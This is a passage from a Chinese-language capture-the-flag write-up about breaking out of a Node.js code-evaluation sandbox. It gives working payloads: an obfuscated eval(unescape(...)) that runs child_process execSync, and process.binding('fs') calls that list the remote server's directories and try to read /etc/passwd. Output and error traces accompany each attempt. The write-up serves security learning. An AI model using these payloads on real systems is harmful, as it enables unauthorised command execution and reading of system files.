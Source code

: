 ```nodejs
> // 本地环境
> eval(unescape(/%2a%2a%2f require%28%22child%5fprocess%22%29%2eexec%53ync%28%22ls%22%29 %2f%2a/)+unescape(/%2a/))
<Buffer 61 73 73 65 74 73 0a 52 45 41 44 4d 45 2e 6d 64 0a>
```

啊先不管这个 Buffer 是啥，反正看起来是行的……吧？然后扔到远程看看：

```json
{"statusCode":500,"code":"1","error":"Internal Server Error","message":"Command failed: /usr/local/bin/node --experimental-policy=policy.json --policy-integrity=sha256-1NvUvTeQqHoo+XJv7zUAobD/VEaIGQ8CB3471GP2isY= runner.js -e=ZXZhbCh1bmVzY2FwZSgvJTJhJTJhJTJmIHJlcXVpcmUlMjglMjJjaGlsZCU1ZnByb2Nlc3MlMjIlMjklMmVleGVjJTUzeW5jJTI4JTIybHMlMjIlMjkgJTJmJTJhLykrdW5lc2NhcGUoLyUyYS8pKQ==\n(node:196) ExperimentalWarning: Policies are experimental.\n(Use `node --trace-warnings ...` to show where the warning was created)\nundefined:1\n/**/ require(\"child_process\").execSync(\"ls\") /*//*/\n     ^\n\nReferenceError: require is not defined in ES module scope, you can use import instead\nThis file is being treated as an ES module because it has a '.js' file extension and '/app/backend/package.json' contains \"type\": \"module\". To treat it as a CommonJS script, rename it to use the '.cjs' file extension.\n    at eval (eval at <anonymous> (eval at <anonymous> (file:///app/backend/runner.js:9:17)), <anonymous>:1:6)\n    at eval (eval at <anonymous> (file:///app/backend/runner.js:9:17), <anonymous>:1:1)\n    at file:///app/backend/runner.js:9:17\n    at ModuleJob.run (node:internal/modules/esm/module_job:193:25)\n    at async Promise.all (index 0)\n    at async ESMLoader.import (node:internal/modules/esm/loader:518:24)\n    at async loadESM (node:internal/process/esm_loader:102:5)\n    at async handleMainPromise (node:internal/modules/run_main:66:12)\n\nNode.js v19.0.1\n"}
```

emmmmmm 不能用 `require` 啊。`import` 也试了一下，不行。网络上有些文章说可以用 `process.mainModule` 来搞，但是在最新版 Node 里面看起来也不行了。不过还好我们还有 `process`，搜了一下，可以用 `process.binding()` 来调用裸的模块函数。

读目录？（payload 来自 <https://tipi-hack.github.io/2019/04/14/breizh-jail-calc2.html>）

```nodejs
> // 本地环境
> process.binding('fs').readdir("/", {}, "", "", function (err, data) {data})
[
  'bin',  'boot',  'dev',
  'efi',  'etc',   'home',
  'lib',  'lib64', 'mnt',
  'nix',  'opt',   'proc',
  'root', 'run',   'sbin',
  'srv',  'sys',   'tmp',
  'usr',  'var'
]
```

远程也可以：

```json
{"result":[".dockerenv","app","bin","boot","dev","etc","flag","home","lib","lib64","media","mnt","opt","proc","root","run","sbin","sock","srv","sys","tmp","usr","var"]}
```

那 flag 一定在 `/flag` 了。参考 <https://jwlss.pw/mathjs/> 写一下读文件的 payload……

```nodejs
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); buffer
node[1745066]: ../src/node_file.cc:1864:void node::fs::Open(const v8::FunctionCallbackInfo<v8::Value>&): Assertion `(argc) == (5)' failed.
 1: 0x7fcfa044d02d node::Abort() [/usr/bin/../lib/libnode.so.111]
 2: 0x7fcfa044d376 node::Assert(node::AssertionInfo const&) [/usr/bin/../lib/libnode.so.111]
 3: 0x7fcfa046638d  [/usr/bin/../lib/libnode.so.111]
 4: 0x7fcfa082ff37  [/usr/bin/../lib/libnode.so.111]
 5: 0x7fcfa0830b66 v8::internal::Builtin_HandleApiCall(int, unsigned long*, v8::internal::Isolate*) [/usr/bin/../lib/libnode.so.111]
 6: 0x7fcfa06d03f9  [/usr/bin/../lib/libnode.so.111]
fish: Job 1, 'node' terminated by signal SIGABRT (Abort)
```
